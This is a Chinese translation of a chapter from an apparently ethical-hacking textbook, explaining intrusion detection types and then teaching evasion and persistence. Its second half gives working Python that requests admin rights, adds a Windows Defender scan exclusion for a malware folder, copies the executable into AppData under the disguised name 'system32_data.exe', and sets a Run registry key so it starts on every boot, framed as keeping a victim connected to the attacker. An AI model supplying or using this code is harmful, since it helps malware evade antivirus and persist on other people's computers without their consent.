









# 第九章：系统保护与持久化

本章我们将重点关注防御机制是如何工作的，通过了解它们的工作原理，您可以学习到如何使用哪些技术来绕过它们。我们将从了解入侵检测系统及其不同类型开始。然后，我们将学习检测机制。一旦我们理解了这些机制，我们将尝试使用我们的工具来绕过它们。总之，本章将集中讨论以下主题：

+   系统保护

+   入侵检测方法

+   检测机制

+   绕过 IDS

# 持久化系统保护

我们之前的章节集中在创建恶意软件和执行不同的攻击上。这是攻击的进攻性一面。然而，在真实的黑客攻击中，您需要知道如何保护自己免受外部攻击。更好地理解保护机制不仅有助于您保护自己，而且这种知识还将帮助您成功地进行攻击。对外部网络攻击或系统攻击的第一道防线通常是**入侵检测系统**（**IDS**）。IDS 是用于系统安全和保护的各种工具的总称，因此我们必须详细了解它们。

## 入侵检测系统

IDS 是一个持续监控并检测网络或系统组件的系统，用于检测任何不良或可疑的行为。IDS 的目标是防止系统中出现任何不良的情况。从根本上说，IDS 有三种类型：

+   主机基础的 IDS

+   网络基础的 IDS

+   混合型 IDS

让我们在接下来的章节中详细讨论这些内容。

### 主机基础的 IDS

主机基础的 IDS 在它们所监控的系统上运行。与其他软件一起，主机基础的 IDS 会监控文件系统，扫描潜在的有害文件。它们还会监控和分析网络流量，以查看网络中是否有恶意流量。

主机基础的 IDS 是系统安全机制的重要组成部分；然而，它们通常无法提供有关系统安全状态的完整细节。它们可能会被不同的攻击修改甚至绕过。主机基础 IDS 的一个重要方面是它在现代威胁检测方面的更新频率。它应该不断跟进现代威胁，并在发现时立即阻止它们。主机基础 IDS 的一个重要特点是保留所有关键活动的日志。这对威胁检测和事件响应非常有帮助。

在大多数常见的操作系统中，您已经有某种主机基础的 IDS 内置在系统中。在 Windows 操作系统中，Windows 内置的杀毒软件是主机 IDS 的一部分。它监控并检测系统上的任何可疑活动，并阻止潜在的威胁对系统进行攻击。除了病毒检测外，它还会检测任何对关键 Windows 基础设施的篡改。

### 网络基础的 IDS

系统安全的另一个重要方面是基于网络的保护。基于网络的 IDS 在限制外部网络攻击的发生中发挥着关键作用。它们在保护网络中所有设备方面起着作用。它通过监控整个子网的网络流量来观察可疑活动。它可以与防火墙结合使用，以提供额外的安全性。有时，网络范围内的防火墙也是 IDS 的一部分。

### 混合型 IDS

正如名称所示，与单独的系统相比，这些检测系统为系统提供了更多的安全性。它们结合了基于系统和基于网络的方法来捕捉恶意行为，并具有更高的检测率。现代混合型 IDS 使用常规技术和基于**人工智能**（**AI**）的技术来防止网络攻击。

现在我们已经了解了不同类型的 IDS，让我们看看这些 IDS 是如何工作的。

## IDS 检测机制

最常见的 IDS 通过使用以下两种基本技术来工作，尽管现代的 IDS 使用了更加复杂的方法。让我们来看看不同的检测机制以及它们如何在实际系统中应用。

### 基于特征码的检测

这是一种经典的基于知识的方法，自计算机安全的早期阶段以来就已经使用。在这种方法中，保护软件可以访问一个大型的已知恶意软件数据库。通过这个数据库，它可以查看恶意软件中存在哪些字节，然后它简单地将任何新引入系统的文件与这些字节序列进行比较。如果一个*未知文件*的字节序列与数据库中存在的字节序列匹配，则意味着该未知文件很可能是恶意的，它将立即阻止该文件。否则，它将继续正常操作。其算法最简单的形式如下：

图 9.1 – 基于特征码的检测机制

基于特征码的检测对于已知的恶意软件非常有效，因此一个好的 IDS 必须拥有更大的恶意软件数据库。此方法的效果仅取决于它所拥有的数据库的质量。如果是新编写的恶意软件尚未被检测到，那么在该测试中会产生假阴性。

### 基于异常的检测

这些检测系统与基于特征码的方法不同。它们监控程序的活动，定义某些它认为是*正常行为*的场景，然后寻找这些行为中的任何异常。例如，一个游戏软件不应该试图禁用防病毒系统。一旦恶意软件程序试图做一些不应该做的事情，这些系统就会将这些程序标记为可疑，并继续监控它们，直到检测到该程序试图执行一些绝对不该做的操作。一旦检测到可疑行为，它们要么会完全阻止该程序，要么会为管理员生成*红色警报*。

请注意，IDS 和**入侵防御系统**（**IPS**）之间有一个小的区别。实际上，大多数情况下，这些任务是由同一软件完成的，我们通常不做实际区分。然而，偶尔你会看到 IDS 和 IPS 被单独提及，所以你应该了解它们之间的区别。

现在我们已经了解了什么是 IDS 以及它是如何工作的，我们可以开始构建一个程序，学习如何绕过这些系统。

# 绕过 IDS

在*第六章*，《恶意软件开发》和*第七章*，《高级恶意软件》中，我们开发了我们的恶意软件程序，而在*第八章*，《后渗透》中，我们学习了如何将恶意软件打包成木马。我们的恶意软件工作得很好，如果 IDS 使用基于签名的方法，它很可能不会被检测到，因为恶意软件是你自己编写的，且没有任何签名存在于任何地方。然而，现代 IDS 相当聪明，经过几次运行后，它们会开始注意到可疑行为，并使用非常详尽的方法进行分析。在这一节中，我们将尝试看看如何以管理员权限运行我们的 Python 可执行文件。这将有助于在受害者的机器上执行某些任务，而普通的可执行文件无法完成。例如，在 Windows 中禁用防病毒程序，或者为某个文件夹创建例外，使得病毒扫描程序不扫描该文件夹，都需要管理员权限。你无法通过普通的可执行文件完成这些操作。

让我们首先看看如何以*管理员权限*运行可执行文件。你可以将这种方法与恶意软件程序结合使用。然而，为了简便起见，我将使用一个简单的 Python 脚本来演示这个过程。

让我们创建一个新的 Python 脚本，并创建一个新的虚拟环境。提升 Python 程序权限的方法有很多，你可以在网上找到多种解决方案。然而，我找到的最简单解决方案是使用一个叫做`elevate`的库。由于我们将创建一个可执行文件进行演示，所以我们也需要安装`pyinstaller`。

一旦你创建了一个新项目并在虚拟环境中安装了`pyinstaller`，我们可以运行以下命令来下载`elevate` Python 模块：

pip install elevate

一旦安装了这个包，你可以在代码中使用它来提升可执行文件的权限。根据我的经验，我发现最好将这个功能放在脚本的开头，这样可以获得最佳效果。要提升脚本的权限，你只需调用该模块中的`elevate`函数。

让我们首先看看*用户权限*级别，在使用此模块之前。只需写出以下代码进行测试。我们可以使用`os`模块来检查是否拥有 root 权限：

import ctypes

import platform

def is_root():

if platform.system() == "Windows":

return ctypes.windll.shell32.IsUserAnAdmin()

else:

return 1

print(is_root())

你可以使用前面的代码来查看程序是否在提升模式下运行。如果前面的代码返回的值是`1`，则表示它以*管理员*身份运行，否则它是在非管理员模式下运行。让我们运行之前的程序来查看执行模式：

图 9.2 – 没有管理员权限

现在，为了提升权限，你可以直接调用`elevate()`方法。请注意，Windows 在处理权限提升时有一个小小的限制。当调用`elevate()`时，Windows 并不是以*管理员*身份运行相同的脚本，而是重新启动脚本并以更高的权限作为一个独立进程运行。对此尚无解决方法。因此，当调用提升权限时，会启动一个新的进程。让我们开始提升权限：

import ctypes

import platform

import time

from elevate import elevate

def is_root():

if platform.system() == "Windows":

return ctypes.windll.shell32.IsUserAnAdmin()

else:

return 1

print(is_root())

elevate()

print(is_root())

现在让我们创建一个可执行文件（就像我们在*第八章*，*利用后操作*一节的*打包恶意软件*部分中所做的那样），以便看到这一切的实际效果。要运行该程序，请双击创建的可执行文件。你会看到以下弹出窗口，要求用户点击**是**以提升权限。如果用户点击**是**，程序将以管理员模式运行：

图 9.3 – UAC（用户账户控制）弹出窗口

点击**是**，你将看到以下屏幕，表示一个新的进程已经被创建并以更高的权限运行，权限提升的标志为`1`：

图 9.4 – 管理员权限

现在我们已经学会了如何以*管理员*身份运行脚本，让我们看看如何修改 Windows 设置来添加 IDS 扫描的例外。我们将把一个目录添加到 Windows 的例外规则中。这将允许我们跳过某个目录的病毒扫描，并帮助我们在该目录中植入恶意软件。

提升权限的完整代码可以在以下链接查看：[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example14-priv-escalation/escalation.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example14-priv-escalation/escalation.py)。

在之前的程序中，我们首先提升权限，然后在 Windows Defender 设置中添加对存放恶意软件的文件夹的排除项。这样就可以跳过当前文件夹的扫描。以下代码实现了这一功能：`objective.d`：

command = "Add-MpPreference -ExclusionPath " + dir_to_add

all_commands.append(command)

前一行将一个排除项添加到 Microsoft Defender 扫描库中，如下截图所示：

图 9.5 – 添加病毒扫描排除项

现在我们知道如何让程序在隐身模式下运行，避免被 IDS 检测到。接下来，我们将为程序添加持久性。这样，程序就能在 Windows 启动时自动运行，用户无需每次点击恶意程序就能建立反向连接。受害者只需点击一次恶意程序，我们将为启动程序添加一个 Windows 注册表键，这样每次电脑启动时，我们的恶意程序就会运行。你可以将此方法应用到我们之前开发的受害者程序中。为了简化起见，我将只使用一个演示脚本。

# 持久性

在这一节中，我们将学习如何在 Windows 启动时运行 Python 脚本。让我们创建一个新项目。你也可以修改我们之前开发的受害者程序，见**第六章**，*恶意软件开发*，和**第七章**，*高级恶意软件*。要为程序添加持久性，我们需要确切知道正在运行的可执行文件名称。一旦知道了可执行文件的名称，我们就可以将其复制到其他位置，并确保每次系统启动时从那里运行它。这听起来有点复杂，所以我们一步步来看。首先，我们需要知道可执行文件的名称。为此，让我们编写如下代码：

import sys

curr_executable = sys.executable

print("当前可执行文件：", curr_executable)

如果你以 Python 脚本的形式运行上述程序，输出将如下所示：

图 9.6 – 当前解释器名称

这只告诉我们 Python 解释器的名称，而不是我们所需的可执行文件名称。为什么会这样呢？因为我们目前只是运行一个脚本。获取实际可执行文件名称的唯一方法是使用`pyinstaller`。创建一个二进制可执行文件，并通过双击运行它。请看下面的截图：

图 9.7 – 实际的可执行文件名称

你可以看到，现在我们已经得到了实际需要的可执行文件名称。下一步是创建此可执行文件的副本并将其存储在其他位置，以便从受害者那里隐藏它，最后将注册表项添加到启动应用程序中。

我们将把这个可执行文件复制到 Windows 的`AppData`文件夹，这是一个包含应用程序数据的特殊文件夹。要获取`appdata`文件夹的路径，可以写以下代码：

app_data = os.getenv("APPDATA")

我们来给可执行文件重命名，这样它就不会显得可疑。我们将此可执行文件命名为`system32_data.exe`。这是一个虚构的名字，你可以使用任何你想要的名称：

to_save_file = app_data +"\\"+"system32_data.exe"

接下来，将当前的可执行文件复制到`appdata`文件夹并重命名它。我们需要从 Python 标准库导入`shutil`模块：

shutil.copyfile(curr_executable, to_save_file)

若要将其添加到 Windows 启动时的注册表中，你需要运行以下代码：

key = winreg.HKEY_CURRENT_USER

# "Software\Microsoft\Windows\CurrentVersion\Run"

key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

这段代码简单地将`to_save_file`字符串添加到启动注册表中，该字符串包含可执行文件的名称。

要对程序进行修改，你需要以管理员模式运行此可执行文件，因此你可以将前一节中的代码复制并将其添加到此脚本的开头。完整的代码链接如下：

if not os.path.exists(to_save_file):

print("正在变得持久化")

shutil.copyfile(curr_executable, to_save_file)

key = winreg.HKEY_CURRENT_USER

# "Software\Microsoft\Windows\CurrentVersion\Run"

key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

否则：

print("路径不存在")

运行代码后，如果你进入`appdata`文件夹，你将看到以下可执行文件：

图 9.8 – 当前可执行文件已复制到 appdata 文件夹

同样，为了验证 Windows 注册表是否已被修改，可以通过在 Windows 搜索中搜索`regedit`打开注册表编辑器。打开后，前往以下路径：

`"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"`：

图 9.9 – 编辑后的注册表

最后一行是我们刚刚添加的条目。你可以看到前面截图中的**数据**字段链接到我们刚刚复制的可执行文件。现在，如果你重新启动计算机，你会发现系统启动后，上述的可执行文件会自动启动。作为练习，尝试用受害者恶意软件程序复制相同的步骤。当受害者启动他们的计算机时，你应该能够从受害者的机器上获得一个返回连接。

# 总结

在这一章中，我们学习了不同的系统保护技术。我们首先了解了系统保护以及不同的入侵检测系统（IDS）/入侵防御系统（IPS）的工作原理。我们学习了不同类型的检测机制。我们还学习了如何使用具有提升权限的可执行文件。最后，我们学习了如何使我们的可执行文件持久化。这些知识，结合你在之前章节学到的内容，将使你能够开发出不易被检测的恶意软件工具。只要你保持恶意软件对系统的影响较低，IDS 就不容易检测到你的恶意软件。希望你学到了很多并且喜欢这本书！请记住，网络安全是一个不断变化的领域，你需要时刻与现代工具保持同步，才能成为一名成功的渗透测试人员。
